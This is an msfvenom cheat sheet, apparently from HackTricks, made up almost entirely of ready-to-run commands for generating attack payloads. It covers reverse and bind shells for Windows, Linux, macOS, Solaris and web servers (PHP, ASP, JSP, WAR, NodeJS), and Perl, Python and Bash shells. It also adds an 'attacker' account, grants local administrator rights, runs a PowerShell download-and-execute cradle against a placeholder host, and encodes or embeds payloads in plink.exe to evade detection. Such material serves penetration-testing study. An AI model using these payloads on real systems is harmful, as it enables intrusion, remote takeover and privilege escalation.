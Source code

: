 source: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom#listing

**MSFVenom - CheatSheet**
<pre>msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> </pre>
One can also use the -a to specify the architecture or the --platform

**Listing**
<pre>msfvenom -l #Payloads</pre>
<pre>msfvenom -l encoders #Encoders </pre>

**Common params when creating a shellcode**
<pre> -b "\x00\x0a\x0d" </pre>
<pre> -f c </pre>
<pre> -e x86/shikata_ga_nai -i 5 </pre>
<pre>EXITFUNC=thread </pre>
<pre> PrependSetuid=True #Use this to create a shellcode that will execute something with SUID </pre>


**Windows**
---
**Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe </pre>
**Bind Shell**
<pre>msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe </pre>
**Create User**
<pre>msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe </pre>
**CMD Shell*
<pre> msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe </pre>
**Execute Command**
<pre> msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe </pre>
<pre>msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe </pre>
**Encoder**
<pre>msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe </pre>
**Embedded inside executable**
<pre>msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe </pre>

**Linux Payloads**
---
**Reverse Shell**
<pre>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf </pre>
<pre>msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf </pre>
**Bind Shell**
<pre>msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf </pre>
**SunOS (Solaris)**
<pre>msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf </pre>

**MAC Payloads**
---
**Reverse Shell**
<pre>msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho </pre>
**Bind Shell**
<pre>msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho </pre>

**Web Based Payloads**
---
**PHP Reverse Shell**
<pre>msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php </pre>
<pre>cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php </pre>

**ASP/x Reverse Shell**
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp</pre>
<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx </pre>

**JSP Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp </pre>
**WAR Reverse Shell**
<pre>msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war </pre>
**NodeJS Reverse Shell**
<pre>msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) </pre>
**Script Language payloads**
---
**Perl**
<pre>msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl </pre>
**Python**
<pre>msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py </pre>
**Bash**
<pre>msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh </pre>

